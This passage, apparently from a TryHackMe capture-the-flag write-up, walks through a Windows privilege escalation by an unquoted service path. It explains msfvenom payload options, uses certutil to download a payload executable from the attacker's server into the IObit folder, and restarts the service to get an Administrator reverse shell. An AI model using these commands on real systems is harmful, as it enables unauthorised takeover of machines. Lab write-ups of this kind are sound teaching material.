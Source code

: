-   **-p**: specifies type of payload to generate
-   **LHOST**: set listening IP address / TryHackMe tun0 address
-   **LPORT**: set listening port
-   **-f**: specifies output format to use
-   **>**: write output to specified filename

We can utilize our still running Python server to pull the Advanced.exe executable to the unquoted directory winPEAS alerted us to (IOBit directory) before restarting the service.

```
cd C:\Program Files (x86)\IObit\
C:\Program Files (x86)\IObit>certutil.exe -urlcache -split -f http://10.11.48.183/Advanced.exe
certutil.exe -urlcache -split -f http://10.11.48.183/Advanced.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.

C:\Program Files (x86)\IObit>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Program Files (x86)\IObit

05/23/2022  11:22 AM    <DIR>          .
05/23/2022  11:22 AM    <DIR>          ..
05/23/2022  09:22 AM    <DIR>          Advanced SystemCare
05/23/2022  11:21 AM             7,168 Advanced.exe
05/23/2022  11:22 AM                 0 certutil.exe
09/26/2019  10:35 PM    <DIR>          IObit Uninstaller
09/26/2019  08:18 AM    <DIR>          LiveUpdate
               2 File(s)          7,168 bytes
               5 Dir(s)  44,169,154,560 bytes free
```

Then we engage another netcat listener on port 666 from our attacker machine and restart the service on the target machine with two commands (make sure you issue your stop and start commands from inside the IOBit directory).

```
C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

Once this command runs, you will see you gain a shell as Administrator on our listener.

### 3.5 Root Flag:<a name="35-root-flag"></a>

As you see we have successfully elevated our privileges to System completing the task. Once again I used the command `dir "root.txt" /s` to search for the root flag.
